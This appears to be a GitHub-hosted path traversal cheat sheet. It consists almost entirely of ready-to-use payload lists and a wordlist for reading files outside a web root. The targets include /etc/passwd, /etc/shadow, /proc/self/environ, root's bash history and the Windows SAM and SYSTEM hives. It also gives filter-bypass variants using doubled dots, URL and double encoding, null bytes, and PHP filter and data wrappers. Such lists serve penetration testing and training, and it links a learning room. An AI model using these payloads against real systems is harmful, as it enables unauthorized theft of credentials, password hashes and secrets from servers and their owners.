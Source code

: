 # Path Traversal Cheat Sheet

[Common Paths to Read](#common-paths-to-read)
[Common Method](#common-method)
[Bypassing Defence Mechanism](#bypassing-defence-mechanism)
[File Extension with Null Byte Bypass](#file-extension-with-null-byte-bypass)
[Linux Path Traversal Payloads](#linux-path-traversal-payloads) 
[Windows Path Traversal Payloads](#windows-path-traversal-payloads)
[URL Encoded Variants](#url-encoded-variants)
[Wordlist](#wordlist)
[External Cheat Sheet](#external-cheat-sheet)
[To Learn](#to-learn)

### Common Paths to read
```txt
/etc/passwd
/var/log/apache2/access.log
```
___
### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
1. Sequence block bypass >> ....//....//....//....//etc/passwd
2. Sequence block bypass2 >> ..//..//..//..//etc/passwd
3. Encoding ../ >> %2e%2e%2f
4. Absolute path >> /var/www/images/../../../etc/passwd
5. Absolute path2 >> /var/www/html/..//..//..//etc/passwd
6. Using null byte >> ../../../etc/passwd%00.png
7. Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
8. Using Data wrappers >> data:text/plain,<?php%20phpinfo();%20?>

### File extension with null byte bypass
```Note:``` Don't forget to adjust the file with extension. Ex: ```/etc/passwd%00.png```
```
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
/var/www/images/../../../etc/passwd%00
/var/www/images/..//..//..//..//etc/passwd%00
/var/www/images/....//....//....//....//etc/passwd%00
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd%00
```
### Linux Path Traversal Payloads
```
/etc/passwd
../../../etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
../../../../etc/group
../../../../../../../../etc/passwd
../../../../../../../../etc/hosts
../../../../../../../../etc/shadow
../../../../../../../../proc/self/environ
../../../../../../../../var/mail/root
../../../../../../../../root/.bash_history
../../../../../../../../etc/apache2/apache2.conf
../../../../../../../../etc/mysql/my.cnf
../../../../../../../proc/version
../../../../../../../proc/cpuinfo
../../../../../../../proc/meminfo
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/status
../../../../../../../proc/self/mounts
../../../../../../../proc/self/mountinfo
../../../../../../../proc/self/fd
../../../../../../../proc/self/environ
```
### Windows Path Traversal Payloads
```
..\..\..\windows\win.ini
..\..\..\..\..\..\windows\win.ini
%5C%5C%2E%2E%5C%2E%2E%5Cwindows%5Cwin.ini
..%5C..%5C..%5Cwindows%5Csystem32%5Cdrivers%5Cetc%5Chosts
%2e%2e%5c%2e%2e%5cwindows%5csystem.ini
..%255c..%255c..%255cwindows%255cwin.ini
../../../../../../../../boot.ini
../../../../../../../../windows/system32/config/system
../../../../../../../../windows/system32/config/software
../../../../../../../../windows/system32/config/sam
../../../../../../../../windows/repair/sam
../../../../../../../../windows/repair/system
../../../../../../../../windows/win.ini
../../../../../../../../windows/system.ini
/../../../../../../../../boot.ini
/../../../../../../../../windows/win.ini
/../../../../../../../../windows/system.ini
/../../../../../../../../windows/system32/config/system
/../../../../../../../../windows/system32/config/software
/../../../../../../../../windows/system32/config/sam
```
### URL Encoded Variants
```
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2fetc%2fshadow%00
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fshadow%00
```
### Wordlist
```txt
/etc/passwd
../../../etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
../../../../etc/group
../../../../../../../../etc/passwd
../../../../../../../../etc/hosts
../../../../../../../../etc/shadow
../../../../../../../../proc/self/environ
../../../../../../../../var/mail/root
../../../../../../../../root/.bash_history
../../../../../../../../etc/apache2/apache2.conf
../../../../../../../../etc/mysql/my.cnf
../../../../../../../proc/version
../../../../../../../proc/cpuinfo
../../../../../../../proc/meminfo
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/status
../../../../../../../proc/self/mounts
../../../../../../../proc/self/mountinfo
../../../../../../../proc/self/fd
../../../../../../../proc/self/environ
..\..\..\windows\win.ini
..\..\..\..\..\..\windows\win.ini
%5C%5C%2E%2E%5C%2E%2E%5Cwindows%5Cwin.ini
..%5C..%5C..%5Cwindows%5Csystem32%5Cdrivers%5Cetc%5Chosts
%2e%2e%5c%2e%2e%5cwindows%5csystem.ini
..%255c..%255c..%255cwindows%255cwin.ini
../../../../../../../../boot.ini
../../../../../../../../windows/system32/config/system
../../../../../../../../windows/system32/config/software
../../../../../../../../windows/system32/config/sam
../../../../../../../../windows/repair/sam
../../../../../../../../windows/repair/system
../../../../../../../../windows/win.ini
../../../../../../../../windows/system.ini
/../../../../../../../../boot.ini
/../../../../../../../../windows/win.ini
/../../../../../../../../windows/system.ini
/../../../../../../../../windows/system32/config/system
/../../../../../../../../windows/system32/config/software
/../../../../../../../../windows/system32/config/sam
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2fetc%2fshadow%00
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fshadow%00
```
### External Cheat Sheet
https://github.com/JahTheTrueGod/Directory-Traversal-Cheat-Sheet
### To learn
https://tryhackme.com/r/room/filepathtraversal
